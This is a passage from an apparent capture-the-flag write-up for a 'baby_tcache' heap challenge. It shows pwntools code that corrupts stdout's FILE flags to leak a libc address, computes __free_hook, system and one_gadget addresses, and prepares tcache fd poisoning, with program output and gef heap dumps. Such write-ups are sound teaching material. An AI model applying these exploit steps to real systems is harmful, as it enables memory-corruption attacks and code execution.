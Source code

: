 ```py
add(0x60,"w")
add(0x60,p64(0xfbad1800) + p64(0x00)*3 + b"\x00",1)
```

This resulted in:-

![](/img/pwning/dump.png)

Now, such that this has happened, we carefully parse the leak which resulted in a success LIBC leak:-


```py
libc_leak=u64(p.recv(6)+b"\x00\x00")-0x3ebff0

log.info("LIBC:  "+hex(libc_leak))
free_hook=libc_leak + libc.symbols['__free_hook']
system=libc_leak + libc.symbols['system']
one_gadget = libc_leak+0x4f432
```

And we get a success LIBC leak, thus defeating the ASLR:-

```r
[+] Starting local process './baby_tcache': pid 4839
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 0x7ff4d3954000
[*] Switching to interactive mode

[..snip..]

🍊      Baby Tcache      🍊
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$   1. New heap           $
$   2. Delete heap        $ 
$   3. Exit               $ 
$$$$$$$$$$$$$$$$$$$$$$$$$$$
Your choice: $  


```

Now, from this point we will just overwrite the `fd` of a `free`'d tcache chunk with our target address such that during next allocation, depending on the size will return the target via `malloc` allowing us to overwrite it. Given the heap condition as of now, when we look at the available bins, we see:-

```r
gef➤  heap bins
────────────────────────────────── Tcachebins for arena 0x7fe15febfc40 ──────────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x55ab342e0810, size=0x7fe15febfca0, flags=) 
Tcachebins[idx=5, size=0x70] count=255  ←  [Corrupted chunk at 0xfbad2887]
─────────────────────────────────── Fastbins for arena 0x7fe15febfc40 ───────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```